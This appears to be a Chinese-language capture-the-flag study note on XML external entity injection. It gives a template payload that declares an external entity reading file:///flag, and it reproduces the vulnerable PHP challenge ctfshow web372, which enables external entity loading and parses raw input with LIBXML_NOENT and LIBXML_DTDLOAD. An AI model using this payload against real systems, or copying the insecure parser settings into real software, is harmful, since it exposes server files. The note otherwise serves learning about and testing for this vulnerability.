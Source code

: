 # XML 注入
## 模板

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [
    <!ELEMENT root (ctfshow)>
    <!ELEMENT ctfshow ANY>
    <!ENTITY payload SYSTEM "file:///flag">
]>
<root>
    <ctfshow>&payload;</ctfshow>
</root>
```
DTD 可以定义 XML 文件的标签格式，也可以定义一个实体来访问文件

## 例题 ctfshow web372
```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2021-01-07 12:59:52
# @Last Modified by:   h1xa
# @Last Modified time: 2021-01-07 13:36:47
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/

error_reporting(0);
libxml_disable_entity_loader(false);
$xmlfile = file_get_contents('php://input');
if(isset($xmlfile)){
    $dom = new DOMDocument();
    $dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD);
    $creds = simplexml_import_dom($dom);
    $ctfshow = $creds->ctfshow;
    echo $ctfshow;
}
highlight_file(__FILE__);
```

启用可以使用外部实体。
```php
libxml_disable_entity_loader(false);
```



注意，在这道题中根节点是必要的。根据本地调试，可发现 `$creds` 为：
```
SimpleXMLElement Object
(
    [ctfshow] => SimpleXMLElement Object
        (
        )
)
```